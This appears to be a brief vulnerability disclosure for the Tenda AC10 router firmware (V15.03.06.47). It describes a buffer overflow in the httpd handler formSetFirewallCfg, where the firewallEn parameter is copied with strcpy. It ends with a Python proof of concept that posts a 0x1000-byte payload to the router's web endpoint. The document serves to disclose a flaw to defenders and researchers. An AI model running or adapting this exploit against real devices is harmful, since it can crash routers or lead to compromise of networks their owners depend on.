 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](12.png)

get value from firewallEn ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetFirewallCfg"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
